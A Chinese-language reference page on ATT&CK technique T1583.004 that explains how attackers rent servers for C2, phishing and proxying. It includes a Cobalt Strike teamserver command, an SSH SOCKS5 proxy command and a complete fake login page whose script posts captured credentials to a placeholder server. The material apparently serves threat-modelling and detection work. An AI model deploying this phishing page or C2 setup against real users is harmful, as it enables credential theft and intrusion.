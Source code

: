 # T1583-004-获取基础设施-服务器

## 描述
攻击者在入侵目标组织之前，可能购买、租用或租赁物理或虚拟服务器以支持目标定位和攻击执行。服务器可以是物理硬件、托管在数据中心的专用服务器，或者基于云的虚拟服务器。与入侵第三方服务器或租用虚拟专用服务器（VPS）相比，自建或租赁服务器为攻击者提供了更高的控制权和灵活性，可用于多种恶意活动，例如命令与控制（C2）、钓鱼网站托管、恶意软件分发或数据存储。

攻击者可能通过以下方式利用服务器：
- **命令与控制（C2）**：使用服务器作为C2节点，通过HTTP、HTTPS、DNS或其他协议与受感染主机通信。
- **钓鱼和恶意内容托管**：在服务器上部署伪装的登录页面或恶意文件下载点。
- **代理和中继**：将服务器配置为代理，隐藏攻击者的真实IP。
- **测试和演练**：在服务器上运行测试环境，模拟攻击流程或开发恶意软件。
- **匿名性增强**：选择支持匿名注册或加密货币支付的服务器供应商，降低被追踪的风险。

服务器的高性能和可控性使其成为攻击者构建复杂基础设施的理想选择，尤其是在需要大规模或长期操作的场景中。

## 测试案例
以下是模拟攻击者获取和使用服务器的常见方法和案例：
- **服务器租用**：
  - 通过服务提供商（如Hetzner、OVH、阿里云、AWS）租用专用服务器或云服务器。
  - 选择支持加密货币支付的供应商（如BitLaunch、HostSailor）以隐藏身份。
- **服务器用途**：
  - **C2服务器**：在服务器上部署Cobalt Strike、Metasploit或自定义C2框架。
    ```bash
    # 在服务器上启动Cobalt Strike
    ./teamserver <SERVER_IP> <password> /path/to/profile
    ```
  - **钓鱼网站**：部署伪装的登录页面，窃取用户凭据。
    ```html
    <!-- 伪装登录页面 -->
    <html>
    <head><title>TargetCorp Login</title></head>
    <body>
        <form id="login-form">
            <input type="text" id="username" placeholder="Username">
            <input type="password" id="password" placeholder="Password">
            <input type="submit" value="Login">
        </form>
        <script>
            document.getElementById('login-form').addEventListener('submit', function(e) {
                e.preventDefault();
                var data = {
                    username: document.getElementById('username').value,
                    password: document.getElementById('password').value
                };
                fetch('http://<SERVER_IP>/collect', {
                    method: 'POST',
                    body: JSON.stringify(data)
                });
            });
        </script>
    </body>
    </html>
    ```
  - **代理中继**：配置服务器为SOCKS5或HTTP代理，隐藏攻击者流量。
    ```bash
    # 配置SOCKS5代理
    ssh -D 1080 -f -N user@<SERVER_IP>
    ```